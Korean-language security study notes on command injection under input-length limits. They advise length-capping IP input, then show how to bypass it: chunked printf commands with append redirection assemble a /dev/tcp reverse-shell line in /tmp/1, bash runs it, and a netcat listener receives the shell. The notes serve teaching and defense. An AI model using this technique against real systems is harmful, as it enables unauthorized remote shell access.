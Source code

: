 <br/><br/>

### 입력 값의 길이가 제한된 상황
* Command Injection 취약점이 발생하지만 입력 길이가 제한된 상황에서 **append redirection** 또는 **네트워크**를 이용해 명령어를 실행시킬 수 있음
    - Command Injection 취약점을 막기 위해 애플리케이션에서 특정 기능을 수행할 때 **필요한 데이터만 받고 처리하는 것**을 권장함 <br/> &nbsp;&nbsp; → 입력 값의 길이를 제한하는 방법을 통해서 필요한 데이터만을 받고 처리하도록 만들 수 있음
        + 예시: 서버의 네트워크 상태를 판별하는 기능
            - IP 주소와 도메인 외에는 처리할 필요가 없으므로 길이를 통해 이를 제한하면 공격에 제약 사항이 발생함
                | 종류 | 설명 |
                |:---:|------|
                | 도매인 | 길이를 예측할 수 없으므로 길이를 통해 제한할 수 없음 |
                | IP 주소 | 길이가 정해져 있기 때문에 길이를 통해 제한할 수 있음 <br/> &nbsp;&nbsp; - IPv4(```xxx.xxx.xxx.xxx```) 기준으로 16바이트 이상의 값을 입력 받을 필요가 없음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; → 15바이트 이하의 데이터만 처리하도록 제한함 |

<br/>

* 리다이렉션(Redirection)을 이용하는 방법
    - 쉘의 기능인 append redirection(리다이렉션)을 이용해 사용자가 쓰기 권한을 갖고 있는 임의 디렉터리에 파일을 생성함 <br/> &nbsp;&nbsp; → 한 글자씩 원하는 문자를 파일에 저장한 후 ```bash```, ```python``` 등의 인터프리터를 이용해 실행함
    - 예시: 입력 값의 길이가 제한된 상황에서 공격자의 서버와 리버스 연결을 맺는 상황
        + 공격 스크립트
            ```bash
            printf bas>/tmp/1 # → Line 1
            printf h>>/tmp/1
            printf \<>>/tmp/1
            printf /d>>/tmp/1
            printf ev>>/tmp/1
            printf /t>>/tmp/1
            printf cp>>/tmp/1
            printf />>/tmp/1
            printf 1 >>/tmp/1
            printf 2 >>/tmp/1
            printf 7.>>/tmp/1
            printf 0.>>/tmp/1
            printf 0.>>/tmp/1
            printf 1/>>/tmp/1
            printf 1 >>/tmp/1 # → Line 15
            printf 2 >>/tmp/1
            printf 3 >>/tmp/1
            printf 4 >>/tmp/1 # → Line 18
            bash</tmp/1& # → Line 19
            ```
            | Line | 설명 |
            |:---:|------|
            | 1 ~ 18 | 공격자가 원하는 입력을 1~3바이트씩 입력함 <br/> &nbsp;&nbsp; → /tmp/1 파일에 ```bash</dev/tcp/127.0.0.1/1234```의 데이터가 입력됨 <br/> &nbsp;&nbsp;&nbsp;&nbsp; (```/tmp``` 디렉터리는 누구나 읽고 쓸 수 있는 권한이 존재함) |
            | 15 ~ 18 | file descriptor로 인식되지 않기 위ㅐ서 ```print 1 >>/tmp/1```과 같이 숫자 뒤에 스페이스를 추가하고 있음 |
            | 19 | ```/tmp/1```의 내용을 stdin으로 bash를 실행하여 리버스 쉘을 맺을 수 있음 |
        + 공격자 서버
            ```linux
            $ nc -l -p 1234 -k -v
            Listening on [0.0.0.0] (family 0, port 1234)
            Connection from 127.0.0.1 52536 received!
            bash>&0 2>&0
            id
            uid=1000(users) gid=1000(users) groups=1000(users)
            ```
            | Line | 설명 |
            |:---:|------|
            | 1 ~ 2 | 1234번 포트(```-p 1234```)로 tcp 연결을 기다리는(```-l```) ```nc``` 명령어 |
            | 3 | TCP 연결이 맺어짐을 알려줌 |